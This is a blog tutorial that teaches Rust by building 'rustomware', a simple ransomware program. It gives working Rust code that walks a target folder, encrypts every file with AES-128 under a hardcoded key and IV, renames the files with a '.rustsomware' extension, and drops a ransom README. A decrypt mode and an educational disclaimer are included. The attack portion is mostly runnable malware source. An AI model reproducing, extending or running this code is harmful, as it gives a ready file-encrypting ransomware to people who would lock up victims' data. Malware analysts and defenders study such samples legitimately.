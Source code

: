 ```yaml
---
layout: article
title: Rust 101 - Let's write a Rustomware
tags: [rust, windows, linux, malware-dev]
---
```


[![star](https://img.shields.io/badge/star-100000?style=for-the-badge&logo=Github&logoColor=white)](https://github.com/Idov31/rustomware) [![fork](https://img.shields.io/badge/fork-100000?style=for-the-badge&logo=Github&logoColor=white)](https://github.com/Idov31/rustomware/fork) [![follow](https://img.shields.io/badge/follow-100000?style=for-the-badge&logo=Github&logoColor=white)](https://github.com/Idov31)

## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [rustomware](https://github.com/idov31/rustomware) in Rust. Later on, I ran into trickster0's amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and that gave me more motivation to learn Rust. Nowadays I'm creating a unique C2 framework written (mostly) in Rust. If you are familiar with Rust, you can skip to Part 2 below.

The whole code for this blog post is available on my [GitHub](https://github.com/idov31/rustomware) :).

## Rust's capabilities

The reason that I think that Rust is an awesome language is that it's a powerful compiler, has memory safety, easy syntax and great interaction with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end, it helps the developer to create safer programs. On the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debugging) and will be called rustomware.exe. You'll notice that there are a few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here but in general the Cargo.lock file contains the dependencies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory, we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive into coding our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result type that can be either Ok or Err. We also needed to clone the string because Rust needs to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with a hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption/decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use a hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate them yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use AES128 with Rust, pretty simple right?

As you saw, Rust has a simple interface with the file system that allows you to rename and do io operations easily. Because this is a simple example the function returns a boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a separate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to a variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to a file and if we want to do any changes just change the README file and recompile, no code editing is required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste of Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is available on my [GitHub](https://github.com/idov31), for any questions feel free to ask me on [Twitter](https://twitter.com/idov31).

## Disclaimer

I'm not responsible for any damage that may occur to your computer. This article is just for educational purposes and is not intended to be used in any other way.
